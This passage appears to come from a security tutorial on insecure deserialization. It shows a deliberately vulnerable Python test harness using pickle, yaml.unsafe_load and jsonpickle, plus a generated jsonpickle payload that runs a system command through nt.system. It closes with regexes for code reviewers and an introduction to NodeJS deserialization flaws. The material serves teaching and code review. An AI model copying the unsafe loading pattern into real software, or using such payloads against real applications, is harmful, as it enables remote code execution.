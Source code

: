 To test payloads, and for simplicity, the following vulnerable code can be used:

```python
import _pickle
import sys
import yaml
import jsonpickle

if sys.argv[1] == "b":
    with open("payload.bin", "rb") as payload:
        _pickle.loads(payload.read())
elif sys.argv[1] == "y":
    with open("payload.yml", "r") as payload:
        if float(yaml.__version__) <= 5.1: 
            yaml.load(payload)
        else:
            yaml.unsafe_load(payload)
elif sys.argv[1] == "j":
    with open("payload.json", "r") as payload:
        jsonpickle.decode(payload.read())
```

To generate a valid payload for jsonpickle, for example, the following command can be used:

```bash
$ python PayloadGenerator.py -f json -v os -c "cmd /c calc"
[+] Generating serialized object for:
    cmd /c calc
[+] Final Payload:
    {"py/reduce": [{"py/function": "nt.system"}, {"py/tuple": ["cmd /c calc"]}]}
```

#### Tips for Source Code reviewers

To find this kind of vulnerability it is usually a good start to search the code for common regexes, like: 

* `(loads|load|unsafe_load|decode)\s*\(`
* `([p|P]ickle|yaml)`

For each match, the code should be manually inspected to see whether the object being deserialized can be manipulated by an external attacker.

---

### NodeJS

In NodeJS, serialization is handled by many different modules, which allow to marshal arbitrary complex objects in JSON-like format. A few of them, which were found to be susceptible to deserialization issues, are of interest for this article, and are:

* node-serialize
* serialize-to-js
* funcster

Before starting digging into the vulnerabilities, it should be clear to the reader that this kind of issues in JavaScript behave way differently in comparison to previous examples. No POP gadget chain is required to trigger RCE or sort of. Why so? Usually, bug of this type in JavaScript arises because the serialized payload is passed to functions like `eval()`, or `new Function()`, which implies that arbitrary code may be executed by the application.
